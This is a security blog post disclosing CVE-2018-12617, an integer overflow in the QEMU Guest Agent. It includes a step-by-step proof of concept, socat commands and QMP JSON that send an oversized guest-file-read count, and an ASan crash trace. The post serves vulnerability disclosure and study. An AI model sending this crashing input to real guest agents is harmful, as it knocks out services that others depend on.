 ```yaml
---
layout: post
title: "[CVE-2018-12617] QEMU Guest Agent Integer Overflow"
excerpt: "A trivial integer overflow."
modified: 2018-06-07
categories: proof-of-concept
tags: ["qemu"]
comments: true
---
```


[^1]: <https://lists.gnu.org/archive/html/qemu-devel/2018-06/msg03385.html>

# Overview
QEMU Guest Agent 2.12.50 and earlier has an integer overflow causing a g_malloc0() call to trigger a segfault() call when trying to allocate a large memory chunk. The vulnerability can be exploited by sending a specific QMP command to the agent via the listening socket. [^1]

# Proof-of-Concept
1st, execute the guest-agent using the following command:

{% highlight bash %}
$ qemu-ga -m unix-listen -p /tmp/qga.sock -t /tmp
{% endhighlight %}

2nd, on the other console, connect to the UNIX socket using socat:

{% highlight bash %}
$ socat unix-connect:/tmp/qga.sock -
{% endhighlight %}

3rd, enter the following QMP command:

{% highlight json %}
{"execute":"guest-file-open", "arguments":{"path":"/tmp/poc","mode":"w+”}}
{"return": 1000}
{"execute":"guest-file-read", "arguments":{"handle":1000,"count":4294967295}}
{% endhighlight %}

The guest-file-read must be specified with the correct handle value (file descriptor). Different files will have different handle value.

# Crash Analysis
{% highlight bash %}
#0 0x5598eed0a1af in calloc /home/user/llvm/projects/compiler-rt/lib/asan/asan_malloc_linux.cc:107
#1 0x7f2ce5d7d770 in g_malloc0 (/lib/x86_64-linux-gnu/libglib-2.0.so.0+0x4f770)
#2 0x5598eed84996 in qmp_marshal_guest_file_read /home/user/qemu/qga/qapi-generated/qga-qapi-commands.c:425:14
#3 0x5598eeda4fcf in do_qmp_dispatch /home/user/qemu/qapi/qmp-dispatch.c:119:5
#4 0x5598eeda4fcf in qmp_dispatch /home/user/qemu/qapi/qmp-dispatch.c:168
#5 0x5598eed59bff in process_command /home/user/qemu/qga/main.c:589:11
#6 0x5598eed59bff in process_event /home/user/qemu/qga/main.c:626
#7 0x5598eedb5f13 in json_message_process_token /home/user/qemu/qobject/json-streamer.c:105:5
#8 0x5598eee25d9b in json_lexer_feed_char /home/user/qemu/qobject/json-lexer.c:323:13
#9 0x5598eee25333 in json_lexer_feed /home/user/qemu/qobject/json-lexer.c:373:15
#10 0x5598eed5a95e in channel_event_cb /home/user/qemu/qga/main.c:659:9
#11 0x5598eed710c1 in ga_channel_client_event /home/user/qemu/qga/channel-posix.c:92:23
#12 0x7f2ce5d78049 in g_main_context_dispatch (/lib/x86_64-linux-gnu/libglib-2.0.so.0+0x4a049)
{% endhighlight %}
